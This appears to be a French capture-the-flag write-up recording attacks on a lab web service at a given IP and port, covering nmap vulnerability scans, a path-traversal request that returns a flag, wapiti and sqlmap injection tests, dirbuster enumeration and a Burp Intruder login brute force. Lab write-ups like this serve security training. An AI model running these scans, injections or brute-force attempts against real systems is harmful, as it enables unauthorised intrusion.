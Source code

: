# application-53814

ajout PORT dans `.envrc`

http://51.68.36.97:53814/

un blog avec trois posteurs : Sam, John, Henri, et un mire de login sur http://51.68.36.97:53814/login.php

pas de robots.txt `curl http://$RHOST:$PORT/robots.txt`

## énumération de failles

```sh
nmap -v -sV -Pn -p $PORT -script=vuln -oA vuln $RHOST
```

voir [rapport nmap](./vuln.nmap)

c'est la même version que le port 80 et 443 :/

## tentative de "path traversal"

les liens de blog passe pas une page get.php?page=blog1.html

si on demande autre chose alors on a un message comme quoi ca marche que avec du .html ou .txt

tentative bête et méchante :
```sh
curl http://51.68.36.97:53814/get.php\?page\=flag.txt
FLAG10{b2ece9353bac8fdda4fd579e19622607059cdec8}
```

on retrouve la valeur trouvée dans [04-apache-80](./04-apache-80), rien de plus :(

## répertoire uploads

contient trois images : pas de formulaire d'upload

## wapiti

```sh
wapiti -u http://$RHOST:$PORT -v 2 -f txt -o wapiti.general.txt
wapiti -u http://$RHOST:$PORT/login.php -m brute_login_form -v 2 -f txt -o wapiti.bruteforcelogin.txt
```

nada

## abus php via injection ?

voir https://www.vaadata.com/blog/sqlmap-the-tool-for-detecting-and-exploiting-sql-injections/

```sh
sqlmap -u "http://$RHOST:$PORT/login.php" --data='username=1'
[10:56:32] [WARNING] POST parameter 'username' does not seem to be injectable
sqlmap -u "http://$RHOST:$PORT/login.php" --data='password=1'
[11:00:10] [WARNING] POST parameter 'password' does not seem to be injectable
```

pas d'injection SQL :(

## énumération de path

```sh
dirbuster -H -l /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$RHOST:$PORT | tee -a dirbuster.log
```

c'est long (et chiant) et ca ne donne rien : je voulais savoir (c'était avant d'avoir l'exploit/filesystem via 04-apache-80) si y'avait plus derrière...

## brute force mire de login

http://51.68.36.97:53814/login.php

exemple d'authn (vu avec la console developer firefox)
```sh
curl 'http://51.68.36.97:53814/login.php' --data-raw 'username=test&password=test'
```

renvoit toujours 200 ?!

réutilisation des credentials trouvées dans [02-smb-445](./02-smb-445) : KO

On active l'artillerie lourde avec `burp`.

voir https://portswigger.net/support/using-burp-to-brute-force-a-login-page

avec intruder, sur la liste de user Sam, John, Henri, admin, Admin

pause si invalid login est absent de la réponse voir settings

une authentification permet de trouver le flag 7 dans la page de l'admin.
